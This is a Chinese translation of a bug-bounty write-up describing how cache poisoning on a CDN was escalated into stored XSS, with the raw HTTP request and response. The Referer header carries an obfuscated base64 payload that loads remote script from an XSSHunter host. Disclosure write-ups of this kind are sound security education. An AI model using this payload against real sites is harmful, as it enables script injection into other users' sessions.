


# 我如何通过入侵 CDN 缓存服务器赚到 16500 美元——第 1 部分

> 原文：<https://infosecwriteups.com/how-i-made-15-000-by-hacking-caching-servers-part-1-5541712a61c3?source=collection_archive---------0----------------------->

## @bxmbn



# *缓存中毒到存储的 XSS*

> *赏金:6300 美元*

这实际上是我的第一次缓存中毒，我最初报告它是一个缓存欺骗问题，因为这是我当时所知道的关于缓存利用的所有信息，以及为什么这最终被分类并作为缓存中毒奖励给存储的 XSS 的原因，是因为分类者打开了我的眼睛，告诉我寻找一个自我 XSS，所以它可以被分类为高或关键。

我能够通过 Referer 头注入 Javascript，但攻击者仍然需要将中毒的 URL 发送给受害者，因为 URL 需要被攻击者修改，所以缓存服务器可以保存它。

经过一番谷歌搜索，我找到了一个直接被缓存的 URL，没有任何扩展名。这就是我所需要的一切，:D

我迅速更新了报告。

通过保存我的 XSSHunter 有效负载而没有任何“缓存破坏者”(？param=123)然后，对缓存服务器计时，直到它刷新并发送请求。

## 请求:

```
GET /xxxx/xxxx/xxx HTTP/2
Host: Redacted
Referer: ?</script><svg/onload=eval/**/(atob/**/(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vNTkzLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=>
...
```

## 回应:

```
HTTP/2 200 Ok...
Content-Type: text/html; charset=utf-8
X-Cache: HIT
...<html>...<script>..."Referer":"?</script>
<svg/onload=eval/**/(atob/**/(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vNTkzLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=>...
```

第二天醒来，我收到了来自 XSSHunter 的 35 个通知，令我惊讶的是，其中 4 个是在不同的子域上被解雇的。



# ***时间轴:***

> 报道→2021 年 11 月 7 日
> 
> 分流→2021 年 11 月 11 日
> 
> 悬赏奖金→2021 年 11 月 17 日

# 接下来:

第 2 部分:隐藏 XSS 的好方法

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)